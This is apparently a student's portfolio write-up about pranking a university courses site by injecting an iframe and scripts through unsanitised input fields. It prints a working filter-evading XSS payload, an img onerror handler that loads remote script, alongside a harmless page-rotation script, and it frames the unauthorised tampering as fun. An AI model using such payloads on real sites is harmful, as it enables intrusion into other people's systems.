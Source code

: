 ```yaml
---
layout: default
title: Skule Security Sillyness
permalink: /evaluations/skulecourses/index.html
group: evaluations
---
```

My room mate [Zhuowei](http://zhuoweizhang.net) and I explored how secure [Skule's (U of T Engineering) courses page](http://courses.skule.ca) is,  
since it is host to supposed past exams that most U of T students download without a second thought.  

This was done mostly for fun and curiosity, with no malicious intent; **preserving the pages' usability was a primary concern**.  

The pages that were pranked include: [CSC180](http://courses.skule.ca/course/?q=CSC180H1) | [ESC103](http://courses.skule.ca/course/?q=ESC103H1) | [PHY180](http://courses.skule.ca/course/?q=PHY180H1)  
In case those pages were taken down, you can see the scripts in action: [Sample ESC103](esc103.html) | [Sample PHY180](phy180.html)  

Message to all readers and possibly maintainers of Skule:  
Please sanitize input boxes before injecting content into the page; it's too easy for someone to insert an \<a\> tag redirecting to a malicious site!  


**UPDATE (Dec 22, 2013)**: Fortunately Skule fixed this exploit! You can still check out the effect from the sample pages.  

<h2 class="anchor">Injecting Code (the clever part) <a class="anchor-link" title="permalink to section" href="#injection" name="injection">¶</a></h2>
--------------------------------
Before altering the actual course pages, an illegitimate course was created to allow prototyping.  
Skule's search cannot find the course, but direct access through URL allows access to upload and view.  

The first page to be "improved" was CSC180, which had an iframe element injected through the "Display As" field.  
Apparently **no sanitation of inputs is done...**  

<div class="frames">
<img src="dirtyinputs.png">
<p>They protect against spam... But what of dirty injections!?!</p>
</div>

The code for the CSC180 page was written by Zhuowei while I wrote the code for the ESC103 page.  
The PHY180 page's [GravityScript](https://code.google.com/p/gravityscript/) was written by Mr.Doob for Google and we simply embedded it into the page using the method below.  

The embedding for the CSC180 page was trivial since no scripting was required,  
but adding a script for the ESC103 and PHY180 pages were much more difficult.  

Just adding a \<script\> element didn't work.   
`<script src="some pastebin url"> </script>` 
After exhausting the possibilities by splitting the string up and concatenating them like `"<scr" + "ipt>"` and escaping the characters like  
`&quot;&lt;scr&quot; + &quot;ipt&gt;&quot;` we determined that the input ate script tags, apparently.  

Our workaround was to use an impossible to load \<img\> element that points to our script with its onerror attribute.
`<img onerror="a=document.createElement(&quot;script&quot;);a.src=&quot;url to our code&quot;;document.body.appendChild(a)" src="http://localhost:1">`  

It will always load my script because http://localhost:1 as an image can never load!

<h2 class="anchor">Javascript (the dumb part) <a class="anchor-link" title="permalink to section" href="#code" name="code">¶</a></h2>
-------------------------
I took this as an opportunity to get familiar with Javascript, seeing as I recently learned HTML and CSS for this portfolio.  
Gaining proficiency in JS will complete my skill set as a web developer, which will be widely useful since the web is becoming a larger distributor of applications.  
Web apps are robust in being 100% cross-platform, requiring just a browser to function on any OS and device, compatible with my philosophy for robustness.  

The idea was to create an effect that was immediately noticeable yet is easy to turn off to preserve usability.  
Seeing as this was our linear algebra course, I went with rotating the page, which is a linear transformation :D.  
A large button was placed in the centre of the page to make it easy for people to return the page to normal since its location will stay still.
<pre><code>var timer = setInterval(transform,50);
var degreez = 0;
var allSet = false;
var bellybutton;
function transform(){
	if (!allSet) {
		var transOrigin = "50% 50%";
		document.body.parentElement.style.height = "100%";
		document.body.style.minHeight = "100%";
		document.body.style.transformOrigin = transOrigin;
		document.body.style.webkitTransformOrigin = transOrigin;
		document.body.style.mozTransformOrigin = transOrigin;
		bellybutton = document.createElement("button");
		bellybutton.innerHTML = "CLICK TO STOP PUKING";
		bellybutton.style.position = "absolute";
		bellybutton.style.left = "45%";
		bellybutton.style.top =  "45%";
		bellybutton.style.width = "10%";
		bellybutton.style.height =  "10%";
		document.body.appendChild(bellybutton);
		bellybutton.onclick = stoppuking;
		allSet = true;
	}
	var transString = "rotate(" + degreez + "deg)";
	document.body.style.transform = transString;
	document.body.style.webkitTransform = transString;
	document.body.style.mozTransform = transString;
	degreez += 1;
}
function stoppuking(){
	clearInterval(timer);
	var transString = "";
	document.body.style.transform = transString;
	document.body.style.webkitTransform = transString;
	document.body.style.mozTransform = transString;
	document.body.removeChild(bellybutton);
}
</code></pre>

This code was designed to work on all browsers and devices (webkit, moz, and unnamed),  
and a button was chosen because it can be clicked on all devices, whereas some other mechanisms  
such as onhover aren't mobile compatible.  

Lastly, I'll leave how we changed the years to an arbitrary number as an anagram, decode it if you can:  
a cad ed retelevise fill unlit  (It is in English, has 1 verb, 1 noun, and 3 adjectives)

<h2 class="anchor">Gains from Experience <a class="anchor-link" title="permalink to section" href="#gains" name="gains">¶</a></h2>
---------------------------
- Javascript experience and interest in web development
- Appreciation of sanitizing inputs
- Knowledge of this issue to Skule maintainers that they may fix it
- Fun :D
